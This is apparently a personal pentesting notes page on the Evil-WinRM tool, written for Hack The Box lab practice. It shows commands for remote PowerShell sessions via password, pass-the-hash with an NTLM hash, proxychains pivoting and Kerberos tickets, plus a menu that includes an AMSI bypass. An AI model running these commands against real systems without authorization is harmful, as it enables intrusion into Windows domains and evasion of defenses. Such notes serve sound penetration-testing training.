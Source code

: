 ```yaml
---
title: evil-winrm 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - tools
  - active directory
  - windows remote management
---
```

# Evil-WinRm

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

By default, installed on kali. [See winrm](5985-5986-winrm-windows-remote-management.md).


## Basic usage

Example from [HTB machine: Responder](htb-responder.md).

```bash
evil-winrm -i $ip -u <username -p <password>

evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
# -H: Hash

# Open a menu
menu

# There are some options there like
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

# To use them, just run it on the terminal
```

Another example: combined with proxychains and pass the hash technique:

```
proxychains evil-winrm -i 172.16.5.5 -u INLANEFREIGHT.LOCAL\\Administrator -H 88ad09182de639ccc6579eb0849751cf
```


## Evil-Winrm with kerberos


```
# From the kali machine make sure that we have krb5-user installed
sudo apt-get install krb5-user -y

# Set default realm and realm to the domain
cat /etc/kbr5.conf
# Output should be adapted to something like this (the comments with # are mine):
# [libdefaults]
#         default_realm = INLANEFREIGHT.HTB
# 
# <SNIP>
# 
# [realms]
#     INLANEFREIGHT.HTB = {
#        kdc = dc01.inlanefreight.htb
#    }
#
# <SNIP>

# And now we can use Evil-WinRm
proxychains evil-winrm -i dc01 -r inlanefreight.htb
# i: specifies the target host or IP address (in this case, dc01) that the evil-winrm command will attempt to connect to.
# -r: This flag specifies the domain of the target system.
```


Example from [HTB machine: Voleur](htb-voleur.md).

The `/etc/krb5.conf` is:

```
[libdefaults]
  default_realm = VOLEUR.HTB
  dns_lookup_realm = false
  dns_lookup_kdc = false

[realms]
  AD.TRILOCOR.LOCAL = {
    kdc = 172.16.139.3
    admin_server = 172.16.139.3
  }
  VOLEUR.HTB = {
    kdc = dc.voleur.htb
    admin_server = dc.voleur.htb
  }

[domain_realm]
  .ad.trilocor.local = AD.TRILOCOR.LOCAL
  ad.trilocor.local = AD.TRILOCOR.LOCAL
  .voleur.htb = VOLEUR.HTB
  voleur.htb = VOLEUR.HTB
```

And the evil-winrm command:

```bash
evil-winrm -i dc.voleur.htb -k svc_winrm.ccache -r voleur.htb
```

Where: 
- -i dc.voleur.htb: target host (FQDN required for Kerberos so the SPN is `HTTP/dc.voleur.htb`).  
- -r VOLEUR.HTB:  Kerberos realm (must also exist in `/etc/krb5.conf` with KDC mapping). 
- `KRB5CCNAME=/path/to/svc_winrm.ccache` → path to the **ccache** that holds your TGT for the account  (e.g., `svc_winrm`). Evil-winrm will pick it up automatically.
    
